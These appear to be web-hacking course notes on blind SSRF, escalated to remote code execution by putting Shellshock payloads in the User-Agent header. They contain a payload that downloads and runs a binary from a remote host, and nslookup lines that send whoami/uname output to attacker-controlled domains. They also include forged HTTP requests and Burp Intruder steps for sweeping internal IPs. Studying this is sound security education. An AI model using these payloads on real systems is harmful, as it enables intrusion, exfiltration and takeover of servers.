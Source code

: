 # Section 19: Blind SSRF Vulnerabilities

## Introduction to Blind SSRF Vulnerabilities

In blind SSRF, you send a forged request exactly the same way as the normal SSRF, but **there will be NO RESPONSE**

The impact is a bit lower, but is some scenarios you could gain:
  - code execution
  - exploit vulnerabilities within the devices that are connected to the same network

We can blindly send exploit payloads to the devices on a network. 
These services are only internal not exposed to the Internet.
Server admins don't keep up these devices always up to date.

---

## Discovering Blind SSRF

We could send a forged request to get the vulnerable web server, hosting the vulnerable web application, to:
- send request **to a server that I control** as the hacker
- I can look at the logs, of my server, then I can see if I hijacked the web server and get it to send requests where it wasn't supposed to send requests to


**Example**

turn on Interceptor in Burp Suite ➡️ check _Referer value_ (in any request) with a full link ➡️ (test for open redirect vulnerabilities and SSRF)

- There are not going to appear that is working, but it is working (Blind SSRF)
- We need to modify the server to a location that we own and put it in Referer value
- read the logs to see if it got any requests


---


## Exploiting Blind SSRF Vulnerabilities

In the previous demonstration we cannot send information to our server, only send requests. Could use only as a proxy.

Example:

- Check request sent to the server
- Has User-Agent of the browser (not the server that we' are exploiting)

**Forged Request**

```
GET /?product=4 HTTP/1.1
Host: webserver.com
Cookie: session=c4mDUwJftlcCWRp1Z

User-Agent: Mozilla/5.0 (Windows NT)
Accept: text/html
Referer: https://server3.com

Accept-Encoding: gzip
connection: close
```


**Server 3**


```
GET / HTTP/1.1
Host: server3.com
User-Agent: Mozilla/5.0 (Windows NT)
```

### Exploit

**Forged Request**

```
GET /?product=4 HTTP/1.1
Host: webserver.com
Cookie: session=c4mDUwJftlcCWRp1Z

User-Agent: EXPLOIT
Accept: text/html
Referer: TARGET

Accept-Encoding: gzip
connection: close
```

**Target**

```
GET / HTTP/1.1
Host: TARGET
User-Agent: EXPLOIT
```

The exploit will be sent to the target as a user agent


- Google exploits that use user-agent
  - useragent server exploit

### Shellshock

Found shellshock vulnerability that could exploit via user-agent

A magic string when is sent to the server, it bypasses the filtering that is implemented by the web server,
and whatever value you put after this magic string will be executed as code, through the shell

```
() { :;}; /bin/bash -c "wget http://[redacted]/wp2 -O /tmp/w3;curl -o /tmp/w3 http://[redacted]/wp2;chmod +x /tmp/w3;sh /tmp/w3;rm -rf /tmp/w3*"
```

To see the results of the execution, we must have the server send the results to the hacker web server, can use `nslookup`

### nslookup

Can query DNS records and map a domain name to it's IP address:

```
nslookup $(. COMMAND) .myserver.com
```

```
nslookup $(. COMMAND_RESULT) .myserver.com
```

e.g.

```
nslookup $(uname).3295872502.oastify.com
```

---

## Escalating Blind SSRF to a Remote Code Execution (RCE)

**Forged Request**

```
GET /?product=4 HTTP/1.1
Host: webserver.com
Cookie: session=c4mDUwJftlcCWRp1Z

User-Agent: () {:;}; /usr/bin/nslookup $(.whoami) .myserver.com
Accept: text/html
Referer: https://target.com

Accept-Encoding: gzip
connection: close
```

**Target**

```
GET / HTTP/1.1
Host: target.com
User-Agent: () {:;}; /usr/bin/nslookup $(.whoami) .myserver.com
```

Burp Interceptor ➡️ send product GET request to Repeater ➡️ modify:

- Referer: `http://192.168.0.1/8080`
- User-Agent: `() {:;}; /usr/bin/nslookup $(whoami).3205932.oastify.com`

But referer is not vulnerable ➡️ Use Intruder

- Try all values from 1 to 254 in Referer (all possible IPs in the same range)
- Add s sign in 1
  - Payloads: number
  - From: 1
  - To: 254
  - Step: 1

In our server we have 2 DNS requests, the first part is the username
- now you can replace the whoami with any command you want to execute on the server
- it will execute it on the server
- and send the result to your own web server

full remote code execution on a target server through a Blind SSRF
- use one liner backdoor for interactive shell


---




